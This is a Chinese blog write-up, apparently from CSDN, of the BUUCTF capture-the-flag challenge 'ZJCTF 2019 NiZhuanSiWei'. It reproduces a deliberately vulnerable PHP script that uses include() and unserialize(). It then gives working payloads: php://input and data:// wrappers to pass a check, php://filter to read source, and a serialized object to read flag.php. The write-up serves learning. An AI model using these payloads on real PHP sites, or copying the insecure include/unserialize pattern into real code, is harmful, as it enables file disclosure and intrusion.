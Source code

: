 <!--yml
category: 未分类
date: 2022-04-26 14:39:10
-->

# BUUCTF__[ZJCTF 2019]NiZhuanSiWei_题解_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/107150182](https://blog.csdn.net/TM_1024/article/details/107150182)

## 前言

## 读题

```
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

*   看到有include文件包含，必然是解题的重点，所以先看第一个if，必须先满足它。

*   text不为空，且 file_get_contents() 读取的返回值为 welcome to the zjctf

*   file_get_contents()函数的功能是读取文件内容到一个字符串，但这里没没有一个文件，而是读取的text变量。没查到相关这方面的用法，特别是那个r参数。

*   而如果直接给text赋值 text=welcome to the zjctf 的话，没有回显说明没成功。

*   所以需要用方法绕过它，两种方法

    *   **php://input伪协议**

        *   此协议需要 allow_url_include 为 on ，可以访问请求的原始数据的只读流, 将post请求中的数据作为 PHP代码执行。当传入的参数作为文件名打开时，可以将参数设为 php://input ,同时post想设置的文件内容，php执行时会将post内容当作文件内容。
        *   好像用 HackBar 因为在 post 中没有设置变量不能访问，所以用bp抓包。
        *   看到有回显，可行。
            ![在这里插入图片描述](img/2a4b17d1624907ea8a4878bf6898d477.png)
    *   **data://伪协议**

*   再看第二个if file不能有flag字符。没啥，往下看。

*   提示了有一个 `useless.php` ，想到之前说的PHP伪协议中的php://filter读取文件。尝试。

    ```
    php://filter/read=convert.base64-encode/resource=useless.php 
    ```

*   所以构造payload，成功回显。

    ```
    ?text=data:text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=php://filter/read=convert.base64-encode/resource=useless.php 
    ```

    ![在这里插入图片描述](img/7a0e5f5390321a45c44611eb03ac09f2.png)

*   base64解码,成功得到 useless.php 源码。

```
<?php  

class Flag{  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?> 
```

*   看到有一个 flag.php ,并且file不为空将读取flag.php并显示。所以。构造一个序列化字符串。

```
<?php  

class Flag{  
    public $file=flag.php;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  

$a = new Flag();
$a->file="flag.php";
echo serialize($a); 
```

*   找个在[线运行PHP](https://c.runoob.com/compile/1)的网站，得到

    ```
     O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
    ```

*   最后综合payload

    ```
    ?text=data:text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} 
    ```

*   这里发现如果file继续用前面伪协议读取的话，后面的 password 会无回显无法得到flag 。需修改为 useless.php。

## 最后